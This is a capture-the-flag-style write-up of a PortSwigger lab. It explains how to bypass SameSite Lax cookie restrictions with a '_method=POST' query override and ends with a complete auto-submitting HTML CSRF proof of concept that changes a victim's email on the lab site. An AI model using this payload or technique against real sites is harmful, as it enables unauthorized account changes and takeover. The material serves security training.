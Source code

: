 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/95279fa4-8814-4c6c-89c3-0315703c73ff)

## Solution :

Go to My-Account and Log In to the account with the above credentials and change your email address.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/863353df-f62d-4127-aad3-371bce3b5ac3)

Send the POST /my-account/change-email request to Burp Repeater.And Study the `POST` /my-account/change-email request and notice that this doesn't contain any unpredictable tokens so may be vulnerable to CSRF if you can bypass the `SameSite cookie` restrictions.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/edd6b56e-5907-4641-8b10-2c89080a6667)

Look at the response to your `POST /login` request. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default `Lax` restriction level.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/fb331a91-ed83-4c43-b686-b180b24d9890)

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/59ea78c9-7cca-4c22-ad7e-ff6d31d2ec33)

Recognize that this means the session cookie will be sent in cross-site `GET` requests, as long as they involve top-level navigation.

In Burp Repeater, right-click on the request and select Change request method. Burp automatically generates an equivalent GET request.And send the request. Observe that the endpoint only allows POST requests.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/27135178-95d1-4180-bd9d-659a7ab48eab)

Try overriding the method by adding the `_method` parameter to the query string:

```html
/my-account/change-email?email=foo%40web-security-academy.net&_method=POST
```

Send the request. Observe that this has been accepted by the server.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1b0e7f74-7be1-4a11-a259-c8fd182f13cd)

Now Generating POC.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/03b1a274-8be4-4a02-99fc-a6f8fd8e891f)

Final payload-

```html

<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="https://0aeb00ca04b3a7b2847fb45500440068.web-security-academy.net/my-account/change-email">

      <input type="hidden" name="email" value="foo33&#64;web&#45;security&#45;academy&#46;net" />

      <input type="hidden" name="&#95;method" value="POST" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/');

      document.forms[0].submit();

    </script>

  </body>

</html>

```

Store and view the exploit yourself.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/05bbc12c-cac8-4c11-b3b3-59e3f98370c9)


 Deliver the exploit to the victim to solve the lab

 ![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6d00cc3a-d07c-463f-9d6d-a9759085f4f7)
